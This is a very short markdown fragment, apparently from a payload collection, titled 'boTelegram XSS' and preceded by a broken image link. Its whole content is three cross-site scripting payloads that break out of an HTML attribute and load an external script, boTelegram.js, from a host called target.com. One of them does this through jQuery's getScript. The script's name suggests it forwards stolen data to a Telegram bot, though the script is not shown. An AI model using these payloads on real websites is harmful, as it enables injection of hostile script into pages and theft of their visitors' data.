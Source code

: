 # boTelegram XSS

"><script src="http://target.com/boTelegram.js"></script>

"><script src=http://target.com/boTelegram.js></script>

"><script>$.getScript("//target.com/boTelegram.js")</script>
